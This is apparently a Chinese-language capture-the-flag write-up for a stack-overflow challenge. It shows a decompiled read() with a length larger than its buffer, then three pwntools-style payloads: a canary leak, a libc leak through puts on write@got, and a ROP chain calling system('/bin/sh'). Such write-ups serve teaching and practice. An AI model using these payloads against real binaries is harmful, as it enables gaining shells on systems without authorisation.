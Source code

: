 ```
        return 0LL;
      case 1:
        read(0, &s, 0x100uLL);
        break;
      default:
        puts_wrap("invalid choice");
        break;
    }
    puts_wrap((const char *)&cNull);
  }
}
```

可以看到漏洞点就是 

```
read(0, &s, 0x100uLL);
```

读取的长度超过定义的长度

```
char s; // [rsp+10h] [rbp-90h]
```

> 关键步骤分析

 这个题目关键步骤是：

1.  利用栈溢出做canary泄露
2.  利用栈溢出做libc泄露，再通过libc确定system和/bin/sh
3.  利用栈溢出做rop链，执行system('/bin/sh')

我这里分别给出三次溢出的payload

1、canary泄露的payload：

```
payload = 'A'*(0x90-8)
```

2、libc泄露的payload：

```
pop_rdi_ret = 0x400a93
write_got = elf.got['write']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
```

3、rop链执行system('/bin/sh')

```
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(main_addr)
```
